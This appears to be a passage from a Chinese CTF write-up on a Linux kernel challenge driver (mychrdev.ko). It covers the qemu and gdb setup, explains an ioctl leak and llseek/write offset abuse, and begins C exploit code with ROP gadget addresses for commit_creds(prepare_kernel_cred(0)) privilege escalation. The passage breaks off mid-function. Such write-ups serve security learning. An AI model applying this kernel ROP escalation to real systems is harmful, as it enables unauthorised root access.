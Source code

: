 修改init文件中setsid一行的1000为0

![](https://tva1.sinaimg.cn/large/0081Kckwgy1glwi8mug29j31am0oaad4.jpg)

打包文件系统

```shell
find . | cpio -o --format=newc > ../core.cpio
cd ..
```

打开qemu

```
./start.sh
```

gdb打开

```shell
gdb mychrdev.ko
add-symbol-file ./mychrdev.ko 0xffffffffc0000000
target remote :1234
```

进行调试

参考风沐云烟师傅和Nu1l战队的exp，使用rop的方法进行利用

1. ioctl泄露mydata指针指向的地址和栈上的地址，并计算返回地址

2. 第一次write将文件末尾偏移改为0xf000，第二次write将文件末尾偏移改为0x1ef00，第三次write就可以控制文件开头偏移和末尾偏移了

    需要注意的是第三次write如果直接用llseek将文件指针设置为0x10000的话，此时文件指针与写入字节数的和必然大于0x10000，进入存在漏洞的if分支后写入字节数为0x10000-0x10000=0，覆盖文件开头偏移和末尾偏移就失败了

    所以可以将文件指针设置为0x10001，并且从data第二个字节开始写入，然后通过llseek设置文件指针指向返回地址

3. 之后就是找到有用的gadget，将rop链写入内核栈中覆盖返回地址，执行`commit_creds(prepare_kernel_cred(0))`进行提权

exp:

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <pthread.h>

#include <sys/wait.h>
#include <sys/stat.h>
#include <sys/types.h>

#define pop_rdi_ret 0xFFFFFFFF813EAD2C
#define swapgs_popfq_ret 0xFFFFFFFF81C00EAE // swapgs; popfq; pop rbp; ret;
#define iretq 0xFFFFFFFF81025A56	// iretq; pop rbp; ret;
#define xchg_rax_rdi 0xFFFFFFFF81768EF2
#define vmlinux_base 0xFFFFFFFF81000000
#define dev_text_base 0xFFFFFFFFC0000000



#define KERNCALL __attribute__((regparm(3)))

void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xffffffff8108d690; // TODO:change it
void (*commit_creds)(void*) KERNCALL = (void*) 0xffffffff8108d340; // TODO:change it

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_stat() {
    asm(
```